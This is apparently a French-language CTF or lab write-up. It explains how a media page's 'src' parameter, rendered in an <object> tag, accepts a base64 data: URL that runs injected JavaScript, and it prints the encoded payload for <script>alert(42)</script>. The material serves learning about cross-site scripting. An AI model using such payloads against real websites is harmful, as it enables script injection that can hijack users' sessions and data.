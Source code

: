 EXPLAIN: /index.php?page=media&src=nsa

On a 2 arguments;
page : arguments habituel
src  : <object>
		On voit que l'image de l'aigle est contenu dans un balise <object> et non <img>

- Lorsque l'on met '?' en value de src on voit qu'il nous genere une miniature de la page d'acceuil du site. 
- Lorsque l'on met une image quelconque d;internet on voit qu'elle est bien rentree dans le DOM, mais pas affichee.

Envoyer un script.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs
https://www.base64encode.org/ encode <script>alert(42)</script>

data:[<mediatype>][;base64],<data>

data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=
